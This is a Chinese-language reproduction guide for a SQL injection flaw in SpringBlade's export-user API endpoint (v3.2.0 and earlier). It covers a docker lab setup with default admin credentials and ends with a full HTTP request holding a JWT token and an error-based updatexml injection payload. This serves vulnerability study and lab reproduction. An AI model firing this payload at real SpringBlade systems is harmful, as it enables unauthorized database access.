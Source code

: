 # SpringBlade export-user SQL 注入漏洞


SpringBlade是一个基于Spring Cloud和Spring Boot的开发框架，旨在简化和加速微服务架构的开发过程。它提供了一系列开箱即用的功能和组件，帮助开发人员快速构建高效可靠的微服务应用。该产品/api/blade-user/export-user接口存在SQL注入。

漏洞影响版本

SpringBlade <= v3.2.0

产品项目地址

https://gitee.com/smallc/SpringBlade

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/136345699

## 环境搭建

执行如下命令启动前端项目Sword 和 后端项目 SpringBlade

```
docker compose up
```

环境启动后，访问`http://your-ip:1888`将看到Sword 的登录页面，账户与密码均为`admin`



## 漏洞复现

在用户管理页面选择导出数据

![](https://img-blog.csdnimg.cn/direct/6a69e684e7aa46baa3ec64892b6d9199.png)

burp抓包 增加sql注入payload

![](https://img-blog.csdnimg.cn/direct/bee783c2814648498bd14c0780a0fd44.png)

```
GET /api/blade-user/export-user?blade-auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJpc3N1c2VyIiwiYXVkIjoiYXVkaWVuY2UiLCJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwidXNlcl9pZCI6IjExMjM1OTg4MjE3Mzg2NzUyMDEiLCJyb2xlX2lkIjoiMTEyMzU5ODgxNjczODY3NTIwMSIsInVzZXJfbmFtZSI6ImFkbWluIiwidG9rZW5fdHlwZSI6ImFjY2Vzc190b2tlbiIsImRlcHRfaWQiOiIxMTIzNTk4ODEzNzM4Njc1MjAxIiwiYWNjb3VudCI6ImFkbWluIiwiY2xpZW50X2lkIjoic3dvcmQiLCJleHAiOjE3MDkxMDQyMDcsIm5iZiI6MTcwOTEwMDYwN30.-Nniy1hq-gVtymm1MFWgbAuTOjwiMMheMccrXoIeeL4hbpRqMS2Fbsmf7EiJWBwMqSPX_Us4MAPevRdZVauNEQ&account=&realName=&updatexml(1,concat(0x7e,user(),0x7e),1)=1 HTTP/1.1
Host: 192.168.116.128:1888
```

